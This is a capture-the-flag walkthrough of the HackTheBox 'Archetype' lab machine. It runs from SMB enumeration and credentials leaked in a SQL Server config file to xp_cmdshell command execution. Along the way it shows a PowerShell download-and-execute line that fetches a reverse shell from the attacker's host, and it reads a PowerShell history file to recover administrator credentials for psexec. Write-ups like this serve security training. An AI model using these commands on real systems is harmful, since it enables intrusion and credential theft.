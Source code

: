 # Archetype
This is the first box of the ‘Starting Point’ path from HackTheBox (a series of 9 boxes rated Very Easy).

![Archetype](../Images/htb_archetype_1.png)

**Tools: nmap, smbclient, netcat, Impacket's mssqlclient.py and psexec.py.**

We begin with a scan using nmap (this machine’s IP is 10.10.10.27):
> nmap -n -sC -sV -Pn -T4 10.10.10.27

Or for a more complete scan:
> nmap -n -sC -sV -p- -Pn 10.10.10.27

![Archetype](../Images/htb_archetype_2.png)

The result shows a few open ports, the most promising being 445 (smb) and 1433 (sql server).  
Next up, we try to enumerate the smb with smbclient to look for shared folders:
> smbclient -L \\10.10.10.27 -N

![Archetype](../Images/htb_archetype_3.png)

There is a ‘backups’ share, and upon accessing it, we see a file called ‘prod.dtsConfig’, then we simply download it:
> smbclient -N //10.10.10.27/backups  
> dir  
>  get prod.dtsConfig  

![Archetype](../Images/htb_archetype_4.png)

Now we can read the file:
> cat prod.dtsConfig

![Archetype](../Images/htb_archetype_5.png)

This is a config file from the SQL Server, and we can see that there is a Password and an User field. We can use this to connect to the SQL Server, and for this we’ll be using the mssqlclient.py script from the Impacket toolkit. Now this is the part where I ran into some issues with this script, so I had to do the following procedure to get it to work.  

Install pip for python3:
> sudo apt install python3-venv python3-pip

Git clone impacket, better do it to at /opt to keep it organized:
> sudo git clone https://github.com/SecureAuthCorp/impacket.git

Go inside the impacket folder (cd impacket) and run:
> pip3 install .

Next, we go to the ‘examples’ folder, where the script is, and run the following command to log into the SQL Server:
> python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

We insert the password found previously and we’re in.  
Next up, we run a query to find out if we have the highest privileges:
> SELECT IS_SRVROLEMEMBER (‘sysadmin’)

The answer should be 1 (= true), confirming that we have sysadmin privileges.

![Archetype](../Images/htb_archetype_6.png)

Now we can enable the xp_cmdshell (“Spawns a Windows command shell and passes in a string for execution”) to gain Remote Command Execution (RCE):
> EXEC sp_configure ‘Show Advanced Options’, 1;  
> reconfigure;  
> sp_configure;  
> EXEC sp_configure ‘xp_cmdshell’, 1  
> reconfigure;  
> xp_cmdshell “whoami” (run commands to test, like ‘whoami’ or ‘hostname’)  

![Archetype](../Images/htb_archetype_7.png)

In order to get a ‘real’ shell, we can try a reverse shell. Below, is the powershell reverse shell that we’ll be using. You can find more reverse shells at [**RevShells.com**](https://www.revshells.com/) and customize it with your current IP address, port, and other options) — my IP was 10.10.15.29, and we’re using port 443 (keep in mind that it’s an one-liner command) - I had to take a screenshot of the code because some AVs were blocking this page (also the Revshells website), but at revshells.com select Reverse > Powershell #2 and set the IP/port:

![Archetype](../Images/htb_archetype_code.png)

We save it to a *‘revshell.ps1’* file in our VM.  
Then we set up a python http server to host the revshell file:
> python -m SimpleHTTPServer 80  
> or  
>  python3 -m http.server 80

Now we can start a netcat listening session on port 443:
> nc -vnlp 443

~ If you have your ufw firewall enabled in your VM, you’ll need to change the rules to allow incoming requests to ports 80 and 443:
> ufw allow from 10.10.10.27 proto tcp to any port 80,443

Now in our target machine’s SQL Server, we can run the command to download our revshell file (**one-liner command**):
> xp_cmdshell “powershell “IEX (New-Object Net.WebClient).DownloadString(\”http://10.10.15.29/revshell.ps1");”

And back to our netcat…

![Archetype](../Images/htb_archetype_8.png)

We have a shell!  
The user.txt file containing the user flag is at the sql_svc user’s desktop, so we just read the file:

![Archetype](../Images/htb_archetype_9.png)

In order to get the root flag, we’ll need to, well, become root (in this ‘Windows case’, Administrator a.k.a ‘nt authority\system’). As this sql_svc account is a service account, it’s good practice to check for recently accessed files / executed commands. To do so in PowerShelll, we can insert the command below in our reverse shell (**one-liner command**):
> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

![Archetype](../Images/htb_archetype_10.png)

And there it is! “Someone” mapped the *‘backups’* share using the administrator credentials.  

Next step is to use another Impacket script, psexec.py (we do so in our VM’s terminal, so we go back to the /opt/impacket/examples folder):
> python3 psexec.py administrator@10.10.10.27

We simply provide the password when asked, and do a quick whoami check:

![Archetype](../Images/htb_archetype_11.png)

Now we just need to read the root.txt file at the administrator’s desktop:

![Archetype](../Images/htb_archetype_12.png)

![Archetype](../Images/htb_archetype_13.png)

**That’s all for now!**  
We’ll keep in mind that some of the info collected (like credentials, folders…) can be useful in the next 8 labs of the ‘Starting Point’ path.  
Thanks for reading and keep hacking!  

**Some useful resources to understand the procedures used to root this box:**  

mssqlclient.py troubleshoot  
* https://forum.hackthebox.eu/discussion/3034/starting-point-foothold-mssqlclient-py  

IS_SRVROLEMEMBER (‘sysadmin’)  
* https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?redirectedfrom=MSDN&view=sql-server-ver15  

xp_cmdshell  
* https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15  
* https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server  
* https://www.sqlshack.com/use-xp-cmdshell-extended-procedure/  
* https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell/
